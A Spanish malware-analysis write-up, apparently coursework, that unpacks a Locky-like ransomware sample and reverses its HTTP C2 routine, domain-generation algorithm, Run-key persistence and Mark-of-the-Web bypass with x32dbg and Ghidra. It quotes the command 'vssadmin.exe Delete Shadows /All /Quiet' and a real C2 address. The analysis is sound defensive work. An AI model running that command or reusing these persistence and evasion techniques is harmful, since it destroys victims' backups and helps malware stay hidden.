| Registro / dato       |      Valor | Interpretación                     |
| --------------------- | ---------: | ---------------------------------- |
| `EAX`                 | `00000000` | `STATUS_SUCCESS`                   |
| Buffer de salida      | `022E0000` | PE descomprimido                   |
| Tamaño máximo salida  | `0001AE00` | Tamaño reservado para el resultado |
| Buffer comprimido     | `022C000C` | Bloque comprimido original         |
| Tamaño comprimido     | `00011B29` | Tamaño de entrada                  |
| Primeros bytes salida |    `4D 5A` | Cabecera `MZ`                      |

----

**Guardamos el PE descomprimido:**

En x32dbg ejecutamos:

```bash
savedata C:\dump\unpacked_022E0000.exe,022E0000,1AE00
```

Eso guardará el buffer completo de salida.

------


**Guardamos también el bloque comprimido:**

Para documentar la fase de descompresión:
```bash
savedata C:\dump\compressed_022C000C.bin,022C000C,11B29
```

----


Comprueba el tamaño real descomprimido

El último argumento de RtlDecompressBuffer era:

```bash
FinalUncompressedSize = 0019FA48
```

Ve en el Dump a:

```bash
0019FA48
```

y mira el DWORD que hay ahí.

Si, por ejemplo, ves:

```bash
0001AE00
```

entonces el tamaño real es 0x1AE00.

Si ves otro valor, usa ese valor para guardar el dump exacto:

```bash
savedata C:\dump\unpacked_022E0000_exact.exe,022E0000,<valor>
```




Sí, esa captura confirma el tamaño real descomprimido.

En la dirección:

```bash
0019FA48
```

se ve el DWORD:

```bash
00 AE 01 00
```

En little endian eso equivale a:

```bash
0x0001AE00
```

Por tanto, el tamaño final que escribió RtlDecompressBuffer es exactamente:

```bash
0x1AE00 bytes
```

Erran correctos los comandos:
```bash
savedata C:\dump\unpacked_022E0000.exe,022E0000,1AE00
savedata C:\dump\compressed_022C000C.bin,022C000C,11B29
```


El parámetro FinalUncompressedSize de RtlDecompressBuffer apunta a 0x0019FA48. Tras la ejecución de la función, en dicha dirección se observa el valor 0x0001AE00, que corresponde al tamaño real del buffer descomprimido. Dado que el buffer de salida se encuentra en 0x022E0000 y contiene una cabecera MZ válida, se procede a dumpear 0x1AE00 bytes desde 0x022E0000 para obtener el PE descomprimido en memoria.


------

Triage del PE extraído


```bash

└─$ file unpacked_022E0000.exe
unpacked_022E0000.exe: PE32 executable for MS Windows 5.01 (GUI), Intel i386, 5 sections
                                                                                                                                                      

└─$ sha256sum unpacked_022E0000.exe
e1e9a4cc4dcbeb8d07bb1209f071acc88584e6b405b887a20b00dd7fa7561ce7  unpacked_022E0000.exe
                                                                                                                                                      

└─$ python3 pecheck.py unpacked_022E0000.exe > pecheck_unpacked.txt
python3: can't open file '/home/xxniwexx/Escritorio/muestras-malware/ENIIT/M9T7/dump/pecheck.py': [Errno 2] No such file or directory
                                                                                                                                                      

└─$ python3 ~/tools/didier-stevens/pecheck.py unpacked_022E0000.exe > pecheck_unpacked.txt
                                                                                                                                                      

└─$ rabin2 -I unpacked_022E0000.exe
arch     x86
baddr    0x400000
binsz    110080
bintype  pe
bits     32
canary   true
injprot  false
retguard false
class    PE32
cmp.csum 0x0002391b
compiled Thu Oct  2 11:48:07 2008
crypto   false
endian   little
havecode true
hdr.csum 0x00000000
laddr    0x0
lang     c
linenum  false
lsyms    false
machine  i386
nx       true
os       windows
overlay  false
cc       cdecl
pic      true
relocs   false
signed   false
sanitize false
static   false
stripped false
subsys   Windows GUI
va       true


└─$ strings -a unpacked_022E0000.exe > strings_unpacked_ascii.txt
                                                                                                                                                      
└─$ strings -a -el unpacked_022E0000.exe > strings_unpacked_utf16.txt

└─$ floss -j dump/unpacked_022E0000.exe > floss_unpacked.txt

```

```bash

└─$ strings -a -n 4 strings_utf16.txt | grep -Ei "http|https|www\.|\.exe|\.dll|cmd|powershell|wscript| 
mshta|rundll32|regsvr32|download|url|kernel|loadlibrary|getprocaddress|virtualalloc|virtualp
rotect|createremotethread|writeprocessmemory|run|currentversion|appdata|temp|programdata|pub
lic"
bm~fS8rspHK3faLw9]$3#)oU$bwPk9&
VSEf{YlAKutTCK{dA/%$rQc@
>)y;3@x3OreGHRzRI6]C
0x7f44db81
0x4ae6ada3
%i%u%i
%u%i%d
kernel32.dll
3681+111
VS_VERSION_INFO
StringFileInfo
040904b0
CompanyName
Doubtsoftware.com
FileDescription
Advanced Task Scheduler 32-bit Edition
FileVersion
4.1.0.612
InternalName
#dvenced Task Scheduler 32-bit Edition
LegalCopyright
Copyright 
 Southsoftware.com, 2002-2015
OriginalFilename
Bifscheduler_edmin.exe
ProductName
Advanced Task Scheduler 32-bit Edition
ProductVersion
4.1.0.612
VarFileInfo
Translation
```


---------------

**Lo cargamos  en Ghidra:**

En Ghidra revisamos:

```bash
Entry point
Imports
Sections
Strings
XREF a WinHTTP
XREF a RegSetValueExW / CreateServiceW
XREF a CreateFile / WriteFile
XREF a Crypt* / BCrypt* / advapi32
```




Esta captura confirma algo muy importante: el PE descomprimido sí contiene uso real de APIs de red, y además ya no hablamos de WinHTTP sino de WinINet.

```bash
InternetConnectA
XREF:
004087a2   CALL dword ptr [->WININET.DLL::InternetConnectA]   COMPUTED_CALL
00412264   DATA
```

La referencia relevante es:

```bash
004087a2   COMPUTED_CALL
```

Eso significa que sí hay llamada real desde código a `InternetConnectA`.

-----

**Revismos la funcion FUN_00408776 en Ghidra:**

La función FUN_00408776 actúa como wrapper de InternetConnectA. Utiliza el handle global almacenado en DAT_0041b020, establece el servicio como HTTP mediante dwService = 0x3 y recibe como parámetros el servidor, puerto, usuario y contraseña. Si la llamada tiene éxito, almacena el handle de conexión devuelto por InternetConnectA en la estructura recibida como primer parámetro. Este comportamiento confirma comunicación HTTP real en el PE descomprimido.

-----

**El siguiente paso es extraer el host y el puerto que se pasan a InternetConnectA:**

Ya sabemos que FUN_00408776 es un wrapper de conexión HTTP, pero el servidor no está construido dentro de esa función. Llega como argumento desde su caller.

Vamos a la función llamadora:

```bash
FUN_00407507
```

y buscamos la llamada en:

```bash
004076b7  CALL FUN_00408776
```

------

FUN_0040885d parsea una URL completa con InternetCrackUrlA.

recibir una URL como parámetro, dividirla en componentes y dejar preparados los campos que luego usa FUN_00407507.

```bash

URL completa
  ↓
InternetCrackUrlA
  ↓
host + puerto + path
  ↓
InternetConnectA(host, puerto)
  ↓
HttpOpenRequestA(método, path, HTTP/1.1)
  ↓
HttpAddRequestHeadersA(Content-Type...)
  ↓
HttpSendRequestA / InternetWriteFile
  ↓
HttpQueryInfoA / InternetReadFile
```

------

**Encontrando la URL completa que se pasa como `param_1` a `FUN_0040885d`:**






En esa captura se ve que FUN_00407c2d construye la URL que después se pasa a FUN_00407507:

```bash
00407f4f  LEA   EAX, [EBP - 0x40]
00407f55  PUSH  s_http://_00414dd8       ; "http://"
00407f5a  PUSH  EAX
00407f5e  CALL  FUN_004055e6             ; concatena / construye string

00407f65  PUSH  s_/submit.php_00414dcc   ; "/submit.php"
00407f6a  PUSH  EAX
00407f75  CALL  FUN_0040565d             ; añade el path

00407f7f  PUSH  [EBP + 0x0c]             ; datos a enviar
00407f82  PUSH  EAX                      ; URL construida
00407f87  PUSH  EAX / local              ; buffer destino/respuesta
00407f88  CALL  FUN_00407507             ; rutina HTTP
```

Esto significa que la URL tiene esta forma:
```bash
http://<host>/submit.php
```

El host está en la parte intermedia que se concatena entre "http://" y "/submit.php". No aparece directamente en esta zona de la captura, así que hay que mirar unas instrucciones anteriores dentro de FUN_00407c2d.

----

**FUN_00407aa4:**

es una rutina DGA / generación dinámica de dominio.

`FUN_00407aa4` recibe un índice desde el `caller`, usa `GetSystemTime`, una semilla global `DAT_0041b004` y varias operaciones aritméticas/rotaciones para construir un dominio pseudoaleatorio. Después le añade un punto `.` y selecciona una extensión desde una tabla en `DAT_00414d98`.

```bash
entrada:
  param_1 = objeto/string destino
  param_2 = índice generado previamente

usa:
  GetSystemTime()
  DAT_0041b004
  año / mes / día
  operaciones ROL/ROR/IMUL/XOR/DIV

genera:
  <cadena_aleatoria>.<tld>
```

El host no es algo tipo 93.170.131.108 escrito directamente aquí. Es un dominio generado dinámicamente. Esto encaja con el comportamiento de ransomware/loader tipo Locky: generación de dominios candidatos y envío HTTP a /submit.php.

----


Ver la tabla de TLDs

En Ghidra, vamos a:

```bash
DAT_00414d98
```

y lo convertimos a string/array. Parece una tabla de 10 entradas de 5 bytes cada una:

```bash
DAT_00414d98 + (indice * 5)
```



En la captura se ve el inicio:

```bash
00414d98  72    'r'
00414d99  75    'u'
00414d9a  00
```

Por tanto, la primera extensión visible es:

```bash
ru
```
La rutina DGA no sólo genera el nombre del dominio, sino que también selecciona dinámicamente la extensión desde una tabla ubicada en `DAT_00414d98`. La selección se realiza calculando un índice `módulo 10 `y multiplicándolo por `5`, lo que indica una tabla de `10 entradas de 5 bytes` cada una. La primera entrada visible corresponde a la extensión `ru`.




Ghidra la está interpretando mal como código porque esos bytes todavía no están definidos como datos, pero por la lógica de FUN_00407aa4 sabemos que son entradas de 5 bytes seleccionadas con índice * 5 desde DAT_00414d98.

La tabla queda así:
| Índice | Bytes / texto    | TLD     |
| -----: | ---------------- | ------- |
|      0 | `72 75 00 00 00` | `ru`    |
|      1 | `69 6e 66 6f 00` | `info`  |
|      2 | `62 69 7a 00 00` | `biz`   |
|      3 | `63 6c 69 63 6b` | `click` |
|      4 | `73 75 00 00 00` | `su`    |
|      5 | `77 6f 72 6b 00` | `work`  |
|      6 | `70 6c 00 00 00` | `pl`    |
|      7 | `6f 72 67 00 00` | `org`   |
|      8 | `70 77 00 00 00` | `pw`    |
|      9 | `78 79 7a 00 00` | `xyz`   |

La muestra implementa una DGA que genera nombres de dominio pseudoaleatorios y selecciona la extensión desde una tabla de `10 TLDs: ru, info, biz, click, su, work, pl, org, pw y xyz`. La URL final se construye con el esquema `http://`, el dominio generado y el path `/submit.php`.


----

**Vemos este punto en x32dbg:**
```bash
bp WININET.InternetCrackUrlA
```



En la captura de x32dbg, en InternetCrackUrlA, se ve claramente:

```bash
http://82.146.37.200/submit.php
```

| Elemento     | Valor                                        |
| ------------ | -------------------------------------------- |
| URL completa | `http://82.146.37.200/submit.php`            |
| Host         | `82.146.37.200`                              |
| Path         | `/submit.php`                                |
| Protocolo    | HTTP                                         |
| Puerto       | 80, salvo que se indique otro explícitamente |
| API          | `InternetCrackUrlA`                          |
| Librería     | `WININET.dll`                                |

Esto confirma que la muestra no sólo genera/construye una URL, sino que llega a pasarla a WinINet para parsearla antes de conectar.

-----

**Confirmación método HTTP, cabeceras y datos enviados:**


```bash
bp WININET.InternetConnectA
bp WININET.HttpOpenRequestA
bp WININET.HttpAddRequestHeadersA
bp WININET.HttpSendRequestA
bp WININET.InternetWriteFile
bp WININET.InternetReadFile
```


```bash
[ESP+8]  = host
[ESP+C]  = puerto
```

  
Vemos el cuerpo enviado al C2.
```bash
[ESP+14] = lpOptional
[ESP+18] = dwOptionalLength
```

| Argumento  |      Valor | Interpretación                          |
| ---------- | ---------: | --------------------------------------- |
| `[ESP+4]`  | `00CC000C` | `hRequest`                              |
| `[ESP+8]`  | `00000000` | Headers en esta llamada: `NULL`         |
| `[ESP+C]`  | `00000000` | Longitud headers: `0`                   |
| `[ESP+10]` | `024E2C80` | **Buffer del cuerpo enviado**           |
| `[ESP+14]` | `00000064` | **Tamaño del cuerpo: 0x64 = 100 bytes** |


ahora HttpSendRequestA está enviando 100 bytes de datos a: `http://82.146.37.200/submit.php`

Sobre el valor 024E2C80 -->  Follow in Dump --> Miramos los 100 bytes que aparecen:  



También kos guardamos directamente:

```bash
savedata C:\dump\http_body_024E2C80.bin,024E2C80,64
```

En la llamada a HttpSendRequestA se observa que la muestra envía una petición HTTP a la URL `http://82.146.37.200/submit.php`. La llamada no proporciona cabeceras adicionales en este punto, ya que estas fueron añadidas previamente mediante HttpAddRequestHeadersA. El cuerpo de la petición se encuentra en el buffer `0x024E2C80` y tiene un tamaño de `0x64` bytes.



En la llamada a HttpSendRequestA se identifica un cuerpo de petición de 0x64 bytes ubicado en 0x024E2C80. El contenido no corresponde a texto plano ni a parámetros URL-encoded legibles, sino a un blob binario aparentemente cifrado u ofuscado. Esto sugiere que la muestra prepara la información enviada al C2 mediante una rutina previa de codificación/cifrado antes de transmitirla a `http://82.146.37.200/submit.php`.

----

**Capacidades del código extraido:**

[capacidades_unpacked_022E0000.md](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/capacidades_unpacked_022E0000.md)



**Destacamos:**

| Categoría                            | Capacidad detectada por capa                 |                          Función / dirección relevante | Evidencia principal                                                              | Relevancia para el análisis                                                                                                             |
| ------------------------------------ | -------------------------------------------- | -----------------------------------------------------: | -------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------- |
| **Comunicación C2 HTTP**             | Envío de datos                               |                            `FUN_00407507` / `0x407507` | `HttpOpenRequestA`, `HttpSendRequestA`, `InternetWriteFile`                      | Confirma comunicación saliente hacia C2. Encaja con lo que vimos dinámicamente en `http://82.146.37.200/submit.php`.                    |
| **Comunicación C2 HTTP**             | Recepción de datos                           |                            `FUN_00407507` / `0x407507` | `InternetReadFile` en `0x4079B1`                                                 | La muestra no sólo envía datos: también espera respuesta del servidor. Puede recibir configuración, órdenes o payload adicional.        |
| **Comunicación HTTP**                | Parseo de URL                                |                            `FUN_0040885D` / `0x40885D` | `InternetCrackUrlA` en `0x4088C7`                                                | Confirma la separación dinámica de URL en host, puerto y path.                                                                          |
| **Comunicación HTTP**                | Conexión a servidor HTTP                     |                            `FUN_00408776` / `0x408776` | `InternetConnectA` en `0x4087A2`                                                 | Wrapper de conexión HTTP. Ya lo relacionamos con `InternetConnectA(host, puerto, HTTP)`.                                                |
| **Comunicación HTTP**                | Creación de petición HTTP                    |                            `FUN_00407507` / `0x407507` | `InternetOpenA`, `HttpOpenRequestA`                                              | Inicializa WinINet y crea la petición HTTP.                                                                                             |
| **Comunicación HTTP**                | Consulta de estado HTTP                      |                            `FUN_00407507` / `0x407507` | Comparación con `0xC8` / HTTP 200                                                | La muestra valida que la respuesta sea `200 OK` antes de continuar.                                                                     |
| **Comunicación HTTP**                | Consulta de tamaño de respuesta              |                           `0x407937` en `FUN_00407507` | `HttpQueryInfoA` con `HTTP_QUERY_CONTENT_LENGTH`                                 | Permite reservar/leer la respuesta del C2 de forma controlada.                                                                          |
| **Comunicación HTTP**                | User-Agent                                   |                            `FUN_00407507` / `0x407507` | `ObtainUserAgentString`                                                          | Usa User-Agent del sistema o fallback tipo IE/MSIE, útil para mimetizar tráfico legítimo.                                               |
| **DGA / infraestructura C2**         | Generación dinámica de dominios              |                            `FUN_00407AA4` / `0x407AA4` | Uso de `GetSystemTime`, operaciones aritméticas y tabla de TLDs                  | Confirma que puede generar dominios dinámicos. Ya vimos TLDs como `ru`, `info`, `biz`, `click`, `su`, `work`, `pl`, `org`, `pw`, `xyz`. |
| **Cifrado / ofuscación**             | Cifrado/descifrado vía WinCrypt              |                                 `0x401769`, `0x4022C7` | `CryptEncrypt`                                                                   | Indicio fuerte de tratamiento criptográfico de datos. Puede estar relacionado con body C2, ficheros o configuración.                    |
| **Cifrado / ofuscación**             | AES por instrucciones x86                    |                                 `0x401A4B`, `0x401CBB` | `aeskeygenassist`, `aesenc`, `aesenclast`                                        | Muy relevante: indica implementación AES nativa con instrucciones AES-NI.                                                               |
| **Cifrado / hashing**                | Hash MD5                                     |                                             `0x4071EB` | `CryptCreateHash`, `CALG_MD5 = 0x8003`                                           | Puede usarse para IDs, comprobación de integridad, derivación o identificación de víctima.                                              |
| **Cifrado / hashing**                | Hashing vía WinCrypt                         |                                 `0x4070DF`, `0x4071EB` | `CryptHashData`, `CryptCreateHash`                                               | Apoya la hipótesis de generación de identificadores o preparación criptográfica.                                                        |
| **PRNG / claves**                    | Generación aleatoria                         |                     `0x4022C7`, `0x402935`, `0x40841C` | `CryptGenRandom`                                                                 | Muy relevante para generación de claves, IVs, IDs o material criptográfico.                                                             |
| **Sistema de archivos**              | Enumeración recursiva de archivos            |                                             `0x408A46` | `FindFirstFile`, `FindNextFile`, recursividad                                    | Capacidad típica de ransomware o recolector: recorrer directorios y localizar ficheros.                                                 |
| **Sistema de archivos**              | Lectura de archivos                          |                                             `0x402FAE` | `ReadFile`                                                                       | Permite procesar contenido de archivos. Relevante si se combina con cifrado.                                                            |
| **Sistema de archivos**              | Escritura de archivos                        |                                 `0x403415`, `0x40BC92` | `WriteFile`                                                                      | Puede crear/modificar payloads, notas, archivos cifrados o temporales.                                                                  |
| **Sistema de archivos**              | Crear/abrir archivos                         |                                             `0x402528` | `CreateFile`                                                                     | Base para manipulación de ficheros.                                                                                                     |
| **Sistema de archivos**              | Copiar/mover/eliminar archivos               | Varias: `0x404A4C`, `0x402089`, `0x4022C7`, `0x406E51` | `CopyFile`, `MoveFileEx`, `DeleteFile`                                           | Indica capacidad de modificación y limpieza de archivos.                                                                                |
| **Impacto**                          | Eliminación de Shadow Copies                 |                                             `0x404A4C` | String `vssadmin.exe Delete Shadows /All /Quiet`                                 | Muy relevante: técnica típica de ransomware para impedir recuperación.                                                                  |
| **Impacto / UI**                     | Cambio de fondo de pantalla                  |                                             `0x404791` | `SystemParametersInfo`, `SPI_SETDESKWALLPAPER`                                   | Compatible con ransomware que cambia el wallpaper para mostrar instrucciones.                                                           |
| **Persistencia**                     | Persistencia por clave Run                   |                                             `0x404A4C` | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`                             | Persistencia en inicio de sesión del usuario.                                                                                           |
| **Registro**                         | Crear/abrir claves de registro               |                                             `0x4035E1` | `RegCreateKeyEx`                                                                 | Capacidad de modificar configuración del sistema o persistencia.                                                                        |
| **Registro**                         | Establecer valores de registro               |                                 `0x405511`, `0x4057EA` | `RegSetValueEx`                                                                  | Refuerza persistencia/configuración.                                                                                                    |
| **Registro**                         | Eliminar valores de registro                 |                                             `0x404A4C` | `RegDeleteValue`                                                                 | Posible limpieza, evasión o modificación defensiva.                                                                                     |
| **Evasión**                          | Bypass Mark-of-the-Web                       |                                             `0x404A4C` | `:Zone.Identifier`, `DeleteFile`                                                 | Elimina ADS de zona, asociado a evadir advertencias de SmartScreen/MOTW.                                                                |
| **Evasión / anti-análisis**          | Retardo de ejecución                         |                                             `0x404A4C` | `Sleep`                                                                          | Puede dificultar sandboxing o análisis dinámico rápido.                                                                                 |
| **Discovery**                        | Idioma / localización                        |                                 `0x404A4C`, `0x406B42` | `GetUserDefaultUILanguage`, `GetUserDefaultLangID`, `GetLocaleInfo`              | Posible geofencing o selección de víctimas por idioma/región.                                                                           |
| **Discovery**                        | Versión del sistema operativo                |                                             `0x403EC4` | `GetVersionEx`                                                                   | Fingerprinting del entorno.                                                                                                             |
| **Discovery**                        | Información de discos                        |                                 `0x408F70`, `0x407339` | `GetLogicalDrives`, `GetDriveType`, `GetVolumeInformation`, `GetDiskFreeSpaceEx` | Útil para seleccionar unidades y calcular alcance de cifrado/propagación.                                                               |
| **Discovery lateral**                | Enumeración de recursos compartidos          |                                             `0x408DB4` | `WNetEnumResource`, bucle/recursividad                                           | Capacidad de descubrir shares de red, relevante para propagación o cifrado remoto.                                                      |
| **Red Windows**                      | Conexión a recurso de red                    |                                             `0x408DB4` | `WNetAddConnection2`                                                             | Puede intentar acceder a recursos compartidos remotos.                                                                                  |
| **Proceso / ejecución**              | Creación de procesos                         |                                 `0x404791`, `0x406DD7` | `ShellExecute`, `CreateProcess`                                                  | Puede lanzar comandos, herramientas del sistema o payloads secundarios.                                                                 |
| **Inyección / ejecución en memoria** | Memoria RWX                                  |                                 `0x4064F3`, `0x406634` | `VirtualAlloc`, `VirtualProtect`, `PAGE_EXECUTE_READWRITE`                       | Indicio de ejecución dinámica de código o shellcode.                                                                                    |
| **Shellcode**                        | Ejecución de shellcode por llamada indirecta |                                             `0x4064F3` | Memoria RWX + `indirect call`                                                    | Muy relevante: sugiere carga/ejecución de código en memoria.                                                                            |
| **Carga dinámica**                   | Resolución dinámica de APIs                  |                       Varias, especialmente `0x40E837` | Múltiples `GetProcAddress`                                                       | Ocultación de funcionalidad y carga dinámica.                                                                                           |
| **Carga de código**                  | Parseo de cabeceras PE                       |                                 `0x40B374`, `0x40EE90` | Comparaciones con `MZ` y `PE`                                                    | Posible loader/manual mapping o validación de payload PE.                                                                               |


El plugin capa refuerza que el PE descomprimido no es sólo un módulo de comunicación C2. Presenta capacidades compatibles con una amenaza de tipo loader/ransomware: comunicación HTTP con C2, DGA, cifrado/AES/WinCrypt, generación aleatoria, enumeración recursiva de archivos, manipulación de ficheros, persistencia por clave Run, eliminación de Shadow Copies, cambio de wallpaper, discovery de idioma/sistema/discos/shares de red y ejecución de código en memoria mediante regiones RWX y llamadas indirectas.


-----


Analizaría estas dos primero, porque son las más relevantes para explicar el comportamiento malicioso más allá del C2:

| Prioridad | Capacidad                                                                           | Función en Ghidra | Por qué merece análisis                                                                                                                                                                                                                                                                                       |
| --------: | ----------------------------------------------------------------------------------- | ----------------: | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
|         1 | **Eliminación de Shadow Copies + persistencia Run + posible ejecución de comandos** |    `FUN_00404A4C` | capa detecta en esta misma función `vssadmin.exe Delete Shadows /All /Quiet`, persistencia mediante `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`, `CreateThread`, `Sleep`, borrado de `:Zone.Identifier` y manipulación de registro. Es muy indicativa de comportamiento ransomware/defensa evasiva.  |
|         2 | **Enumeración recursiva de archivos**                                               |    `FUN_00408A46` | capa detecta `FindFirstFile`, `FindNextFile`, `FindClose`, bucles y llamada recursiva. Es clave para saber si recorre directorios para cifrar, recopilar o seleccionar archivos.                                                                                                                              |

------

FUN_00404A4C: Es la función orquestadora del payload. En ella se concentran varias capacidades que capa ya había marcado: evasión, geofencing por idioma, copia del binario, borrado de Zone.Identifier, ejecución de comandos, persistencia Run, enumeración de unidades y borrado de Shadow Copies.


[FUN_00404A4C](https://github.com/soniasalido/cybersecurity/blob/main/Documentation/Malware/Master-ENIIT-Analisis-Malware-Reversing/modulo-9-tecnicas-de-analisis-de-malware/7-M9T7/utiles/FUN_00404A4C.md)


| Bloque                              |    Dirección aproximada | Capacidad                                        | Evidencia                                                                                        | Interpretación                                                                                                                    |
| ----------------------------------- | ----------------------: | ------------------------------------------------ | ------------------------------------------------------------------------------------------------ | --------------------------------------------------------------------------------------------------------------------------------- |
| Inicialización / control de errores | `0x404A80` - `0x404A90` | Ocultación de errores y manejador de excepciones | `SetErrorMode(0x8003)`, `SetUnhandledExceptionFilter`                                            | Reduce ventanas de error y controla excepciones durante ejecución.                                                                |
| Evasión WOW64                       | `0x404A9B` - `0x404ABA` | Desactivar redirección filesystem WOW64          | `GetModuleHandleA("kernel32.dll")`, `GetProcAddress("Wow64DisableWow64FsRedirection")`           | Permite a un proceso 32-bit acceder a rutas reales de `System32` en Windows 64-bit.                                               |
| Geofencing / idioma                 | `0x404B71` - `0x404BA3` | Comprobación de idioma del sistema               | `GetSystemDefaultLangID`, `GetUserDefaultLangID`, `GetUserDefaultUILanguage`; compara con `0x19` | `0x19` corresponde a ruso. Si detecta ese idioma, salta a una ruta de salida/limpieza.                                            |
| Retardo                             | `0x404BB1` - `0x404BBF` | Delay de ejecución                               | Lee valor de configuración, multiplica por `1000`, llama a `Sleep`                               | Retardo configurable, útil contra sandbox o para temporizar la ejecución.                                                         |
| Copia del binario                   | `0x404CCD` - `0x404D0A` | Copia a `svchost.exe`                            | Construye ruta con `svchost.exe` y llama a `CopyFileW`                                           | Intenta copiarse usando un nombre que imita un proceso legítimo de Windows.                                                       |
| Bypass Mark-of-the-Web              | `0x404EC3` - `0x404EE1` | Borrado de ADS `Zone.Identifier`                 | Construye `:Zone.Identifier` y llama a `DeleteFileW`                                             | Elimina el Alternate Data Stream usado por Windows para marcar ficheros descargados de Internet. Capa lo marca como bypass MOTW.  |
| Comunicación C2 adicional           | `0x404D8F` - `0x404DDB` | Petición `gettext` por idioma                    | Construye `&act=gettext&lang=` y llama a `FUN_00407C2D`                                          | Probablemente solicita texto/configuración localizada al C2, posiblemente nota/instrucciones.                                     |
| Enumeración de unidades             | `0x404E4D` - `0x404E64` | Obtiene lista de discos/unidades                 | Llama a `FUN_00408F70`                                                                           | Prepara una lista de unidades para procesarlas.                                                                                   |
| Creación de hilos por unidad        | `0x404E70` - `0x404E7D` | Procesamiento paralelo                           | `CreateThread`, start routine `FUN_00403E5F`, parámetro `ESI`                                    | Crea un hilo por cada entrada de unidad/directorio, probablemente para procesar archivos.                                         |
| Borrado de Shadow Copies            | `0x404F5C` - `0x404F6E` | Inhibición de recuperación                       | String `vssadmin.exe Delete Shadows /All /Quiet`, llamada a `FUN_00406DD7`                       | Comportamiento típico de ransomware: eliminar copias de seguridad del sistema. Capa también lo identifica como `T1490`.           |
| Persistencia Run                    | `0x404F82` - `0x404FCF` | Persistencia en registro                         | `RegOpenKeyExA`, ruta `Software\Microsoft\Windows\CurrentVersion\Run`, llamada a `FUN_004057EA`  | Intenta registrar persistencia bajo `HKCU\...\Run`; capa lo marca como persistencia por Run key.                                  |
| Sincronización de hilos             | `0x404FDB` - `0x404FF6` | Espera de hilos creados                          | `WaitForSingleObject` en bucle                                                                   | Espera a que terminen los hilos de procesamiento.                                                                                 |


Esta función confirma que el PE descomprimido tiene una lógica mucho más cercana a ransomware/loader avanzado que a un simple beacon C2. En particular:
- Evita ciertos entornos por idioma: comprueba idioma del sistema y usuario contra 0x19, que corresponde a ruso. Si coincide, toma una ruta de salida.
- Se copia como svchost.exe: intenta ubicarse con un nombre que imita un componente legítimo.
- Elimina Zone.Identifier: intenta borrar la marca MOTW del fichero copiado.
- Lanza trabajo paralelo por unidades: enumera unidades y crea hilos con FUN_00403E5F.
- Borra Shadow Copies: ejecuta vssadmin.exe Delete Shadows /All /Quiet.
- Configura persistencia: abre HKCU\Software\Microsoft\Windows\CurrentVersion\Run y delega en FUN_004057EA.


-----


XREF real de la FUN_00404A4C con la persistencia: La cadena de evidencia es:

| Punto              |      Dirección | Evidencia                                             | Interpretación                                                                         |
| ------------------ | -------------: | ----------------------------------------------------- | -------------------------------------------------------------------------------------- |
| Detección capa     | `FUN_00404A4C` | `persist via Run registry key`                        | capa marca persistencia por clave Run en esta función.                                 |
| Clave Run          |   `0x00404f93` | `"Software\\Microsoft\\Windows\\CurrentVersion\\Run"` | Ruta clásica de persistencia en inicio de sesión.                                      |
| Hive               |   `0x00404f98` | `0x80000001`                                          | Corresponde a `HKEY_CURRENT_USER`.                                                     |
| Apertura de clave  |   `0x00404fa1` | `RegOpenKeyExA`                                       | Abre `HKCU\Software\Microsoft\Windows\CurrentVersion\Run`.                             |
| Escritura delegada |   `0x00404fcf` | `CALL FUN_004057ea`                                   | Tras abrir la clave, llama a una función auxiliar que capa marca con `RegSetValueEx`.  |
| Escritura de valor | `FUN_004057EA` | `RegSetValueEx` en `0x405833`                         | capa detecta escritura de valor de Registro en esta función.                           |


----




----




----

Observando la persistencia en x32dbg:

```bash
bp unpacked_022E0000.exe+4A4C
bp unpacked_022E0000.exe+4F82
bp unpacked_022E0000.exe+4FA1
bp unpacked_022E0000.exe+4FCF
bp unpacked_022E0000.exe+57EA
bp unpacked_022E0000.exe+5833
```


----




## **9.6 Monitorización del sistema**
- Procmon: ficheros, Registro, procesos.
- Regshot: cambios en Registro.
- FakeNet-NG/Wireshark: tráfico de red.
- Process Explorer: procesos/hilos cargados.
